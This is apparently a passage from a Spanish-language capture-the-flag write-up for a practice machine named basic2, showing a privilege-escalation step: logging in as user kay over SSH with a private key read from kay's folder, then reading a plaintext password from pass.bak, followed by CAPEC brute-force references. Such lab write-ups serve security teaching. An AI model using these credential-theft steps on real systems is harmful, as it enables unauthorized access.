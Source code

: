 <details class=info><summary>Atención</summary></details>


## Escalación de privilegios

~~~shell
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@localhost
Could not create directory '/home/jan/.ssh'.
The authenticity of host 'localhost (::1)' cant be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/home/jan/.ssh/known_hosts).
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
~~~

~~~shell
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
~~~

## Bibliografía

[^1]: Is the username in Unix case sensitive? (2023, July 13). Recuperado de <https://unix.stackexchange.com/questions/235049/is-the-username-in-unix-case-sensitive/235086#235086>

[^2]: SMB port number: Ports 445, 139, 138, and 137 explained. (2023, July 13). Recuperado de <https://4sysops.com/archives/smb-port-number-ports-445-139-138-and-137-explained>

[^3]: CAPEC - CAPEC-112: Brute Force (Version 3.9). (2023, July 13). Recuperado de <https://capec.mitre.org/data/definitions/112.html>

[^4]: CAPEC - CAPEC-49: Password Brute Forcing (Version 3.9). (2023, July 13). Retrieved from <https://capec.mitre.org/data/definitions/49.html>

[^5]: CAPEC - CAPEC-16: Dictionary-based Password Attack (Version 3.9). (2023, July 13). Retrieved from https://capec.mitre.org/data/definitions/16.html